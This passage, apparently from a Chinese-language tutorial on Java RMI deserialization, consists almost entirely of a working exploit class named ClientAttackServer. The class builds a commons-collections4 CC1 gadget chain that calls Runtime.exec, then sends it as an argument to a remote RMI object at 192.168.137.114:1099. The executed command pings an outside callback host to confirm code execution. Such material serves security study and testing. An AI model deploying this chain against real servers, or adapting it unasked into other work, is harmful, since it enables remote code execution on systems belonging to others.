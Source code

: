 同时客户端也要重写参数为 Object 类型的接口，不啰嗦了，还是打一个`commons-collections4 4.0`的 CC1 链，如下-->

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.LazyMap;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class ClientAttackServer {

    private static InvocationHandler getPayload() throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                ),
                new ConstantTransformer(1)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.lazyMap(map, chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
        Map proxy = (Map) Proxy.newProxyInstance(
                Map.class.getClassLoader(),
                new Class[]{Map.class},
                annotationInvocationHandler);
        InvocationHandler entryInstance = (InvocationHandler) constructor.newInstance(Retention.class, proxy);
        return entryInstance;
    }

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("192.168.137.114", 1099);
        IRemoteObject helloRemoteObject = (IRemoteObject)registry.lookup("helloRemoteObject");
        System.out.println(helloRemoteObject.sayHello(getPayload()));
    }
}
```